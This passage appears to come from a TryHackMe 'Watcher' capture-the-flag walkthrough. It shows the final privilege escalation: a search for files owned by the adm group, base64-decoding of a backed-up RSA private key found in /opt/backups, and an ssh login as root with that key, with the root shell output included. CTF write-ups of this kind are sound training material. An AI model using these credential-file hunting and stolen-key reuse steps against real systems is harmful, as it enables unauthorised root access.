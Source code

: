 ```
will@watcher:/home/will$ find / -group adm 2>/dev/null
/opt/backups
/opt/backups/key.b64
...
```

Navigate to `/opt/backups/` to check the `key.b64`:

```
will@watcher:/home/will$ cd /opt/backups
will@watcher:/opt/backups$ cat key.b64
LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlFcEFJQkFBS0NBUUVBelBhUUZvbFFx[REDACTED]LUVORCBSU0EgUFJJVkFURSBLRVktLS0tLQo=
```

It was encoded with **base64** → Encode it:

```
will@watcher:/opt/backups$ cat key.b64 | base64 -d
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAzPaQFolQq8cHom9mssyPZ53aLzBcRyBw+rysJ3h0JCxnV+aG
[REDACTED]
4APxI1DxU+a2xXXf02dsQH0H5AhNCiTBD7I5YRsM1bOEqjFdZgv6SA==
-----END RSA PRIVATE KEY-----
```

That is the private key used for **ssh** connection → Copy the key to the local machine → `chmod 600` to the key and use it to **ssh** to the target as `root` user:

```
┌──(kali㉿kali)-[~/TryHackMe/Watcher]
└─$ file id_rsa
id_rsa: PEM RSA private key

┌──(kali㉿kali)-[~/TryHackMe/Watcher]
└─$ ls -l id_rsa
-rw------- 1 kali kali 1679 Aug 29 14:26 id_rsa
```

```
┌──(kali㉿kali)-[~/TryHackMe/Watcher]
└─$ ssh root@watcher.thm -i id_rsa
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Aug 29 18:29:08 UTC 2023

  System load:  0.12               Processes:             110
  Usage of /:   22.3% of 18.57GB   Users logged in:       0
  Memory usage: 38%                IP address for eth0:   10.10.215.160
  Swap usage:   0%                 IP address for lxdbr0: 10.14.179.1

33 packages can be updated.
0 updates are security updates.

Last login: Thu Dec  3 03:25:38 2020
root@watcher:~# id
uid=0(root) gid=0(root) groups=0(root)
```
